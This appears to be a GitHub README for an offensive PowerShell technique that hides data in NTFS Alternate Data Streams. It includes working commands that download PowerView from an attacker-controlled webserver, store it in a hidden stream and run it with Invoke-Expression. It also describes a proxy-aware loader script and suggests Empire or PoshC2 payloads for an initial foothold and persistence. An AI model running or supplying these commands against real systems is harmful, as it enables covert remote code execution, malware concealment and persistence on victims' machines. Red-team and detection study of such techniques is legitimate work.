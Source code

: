 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whislt reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The paramemeter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now download a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I put together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload to download and embed into the freshly created file. Also in this example the dowload process is able to detect webproxy settings and use the current users credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```
Further uses could be to download a payload, say a standard PoshC2 or Empire base64 encoded payload and hide it in a file and use this as the intial foothold and a persistence method.